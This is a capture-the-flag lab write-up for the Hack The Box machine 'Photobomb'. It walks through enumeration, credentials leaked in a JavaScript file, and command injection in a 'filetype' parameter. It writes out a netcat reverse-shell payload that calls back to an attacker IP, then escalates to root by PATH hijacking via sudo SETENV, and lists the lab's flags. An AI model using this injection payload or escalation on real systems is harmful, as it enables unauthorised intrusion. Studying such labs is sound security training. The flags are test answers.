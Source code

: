 # Photobomb - Easy

```shell
nmap -T4 -p- -A -Pn -v 10.10.11.182

sudo vim /etc/hosts
#map ip to photobomb.htb

feroxbuster -u http://photobomb.htb -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

#inject the reverse shell code
#in filetype parameter
#setup listener
nc -nvlp 4444

#we get reverse shell
whoami
#wizard

ls -la

sudo -l

cat /opt/cleanup.sh
#uses find binary

#in home directory
echo "/bin/bash" > find

chmod +x find

sudo PATH=$PWD:$PATH /opt/cleanup.sh
#we get root shell

id
#root
```

* Open ports & services:

  * 22 - ssh - OpenSSH 8.2p1 (Ubuntu)
  * 80 - http - nginx 1.18.0

* Edit /etc/hosts and include the domain photobomb.htb mapped to the victim IP.

* We can start enumerating for web directories while exploring webpage on port 80.

* We need creds for basic authentication to access the /printer page.

* We do not get any hidden directories, but we can take a look at /photobomb.js

* The script contains the name 'Jameson', and creds pH0t0:b0Mb! for /printer

* Accessing /printer using these creds gives us a page with photos; we can download these images as JPG or PNG and in different dimensions.

* Also, on accessing any other non-existing page such as /printer/robots.txt, we get the message "Sinatra doesn't know this ditty"; this means the webpage is using Sinatra (written in Ruby).

* In the source code for /printer, the title says 'JPGs work on most printers, but some people think PNGs give better quality'.

* We can experiment with JPGs and PNGs and intercept the request in Burp Suite.

* The intercepted request contains the following query at bottom:

    photo=mark-mc-neill-4xWHIpY2QcY-unsplash.jpg&filetype=png&dimensions=3000x2000

* On trying injection in the query for different parameters - it does not work for 'photo' and 'dimensions', but it works for 'filetype':

    photo=mark-mc-neill-4xWHIpY2QcY-unsplash.jpg&filetype=png;whoami&dimensions=3000x2000

* Concatenating any command after the filetype and trying to inject gives us a response which fails to generate a copy of the photo.

* We can insert reverse-shell code after the filetype parameter and setup our listener; after we URL-encode the injected code and send the intercepted request, we get shell:

    photo=mark-mc-neill-4xWHIpY2QcY-unsplash.jpg&filetype=png;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.7 4444 >/tmp/f&dimensions=3000x2000

* We can run '/opt/cleanup.sh' as root without any password; furthermore, it has SETENV set:

    ```(root) SETENV: NOPASSWD: /opt/cleanup.sh```

* The script uses the binary 'find'; we can create a find binary in our home directory, which just calls bash shell.

* On running the script with sudo and path, we get root shell.

```markdown
1. User flag - 3374cce22e3c309fb4b87ed252ea8cfd

2. Root flag - 8f0b1f51dedb63e5472834d5c37ff8d6
```
